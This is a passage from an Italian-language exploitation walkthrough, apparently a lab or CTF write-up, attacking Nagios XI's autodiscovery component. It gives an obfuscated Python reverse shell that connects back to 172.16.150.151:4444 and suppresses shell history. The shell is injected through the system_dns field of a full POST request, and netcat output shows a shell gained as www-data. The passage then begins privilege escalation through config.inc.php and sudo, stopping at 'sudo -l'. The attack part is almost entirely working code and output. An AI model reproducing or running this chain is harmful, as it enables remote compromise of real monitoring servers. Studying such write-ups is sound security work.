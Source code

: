 ![valore](05.png)

Scriviamo una reverse shell ad esempio in python
```
python -c "import os;import pty;import socket;ROOmjOfgfLXNq='172.16.150.151';wbFjsh=4444;CsXkzQdTUgKDFV=socket.socket(socket.AF_INET,socket.SOCK_STREAM);CsXkzQdTUgKDFV.connect((ROO
mjOfgfLXNq,wbFjsh));os.dup2(CsXkzQdTUgKDFV.fileno(),0);os.dup2(CsXkzQdTUgKDFV.fileno(),1);os.dup2(CsXkzQdTUgKDFV.fileno(),2);os.putenv('HISTFILE','/dev/null');pty.spawn('/bin/bash'
);CsXkzQdTUgKDFV.close();"
```
Sostituiamo questi due elementi alla nostra richiesta e mettiamo in ascolto il nostro *netcat*
```
POST /nagiosxi/includes/components/autodiscovery/?mode=newjob HTTP/1.1
Host: 172.16.150.151
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.150.151/nagiosxi/index.php?
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: PHPSESSID=52529pes89umqol35inpcgbglc; nagiosxi=hr0pf3q22rcvf7le9e710kte3q
Content-Type: application/x-www-form-urlencoded
Content-Length: 684
Connection: close

update=1&job=-1&nsp=27e8d8b0836299d975d00677207e7ae1fafe97903eeba7b361134ef3061fe685&address=192.168.1&exclude_address=&frequency=Once&hour=09&minute=00&ampm=AM&dayofweek=1&dayofmonth=1&os_detection=on&scandelay=&system_dns=;python+-c+"import+os%3bimport+pty%3bimport+socket%3bROOmjOfgfLXNq%3d'172.16.150.151'%3bwbFjsh%3d4444%3bCsXkzQdTUgKDFV%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bCsXkzQdTUgKDFV.connect((ROOmjOfgfLXNq,wbFjsh))%3bos.dup2(CsXkzQdTUgKDFV.fileno(),0)%3bos.dup2(CsXkzQdTUgKDFV.fileno(),1)%3bos.dup2(CsXkzQdTUgKDFV.fileno(),2)%3bos.putenv('HISTFILE','/dev/null')%3bpty.spawn('/bin/bash')%3bCsXkzQdTUgKDFV.close()%3b";&topology_detection=&updateButton=
```
Dopo qualche secondo abbiamo la callback con privilegi di utente *nagios*
```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.16.150.151] from (UNKNOWN) [172.16.150.137] 42806
www-data@shopper:/usr/local/nagiosxi/html/includes/components/autodiscovery$ id
<nagiosxi/html/includes/components/autodiscovery$ id                         
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(nagios),1002(nagcmd)
```
Adesso che siamo utente *nagios*, possiamo andare a scrivere in *config.inc.php* come descritto in [3] (attenzione! il path è differente rispetto a [3])
```
www-data@shopper:/usr/local/nagiosxi/html$ ls -la config.inc.php
-rw-rw-r-- 1 nagios nagios 8521 Aug  6 12:27 config.inc.php
```
Verifichiamo di avere i permessi sudo come descirtto in [3]
```
www-data@shopper:/usr/local/nagiosxi/html/includes/components/autodiscovery$ sudo -l
<sxi/html/includes/components/autodiscovery$ sudo -l                         
```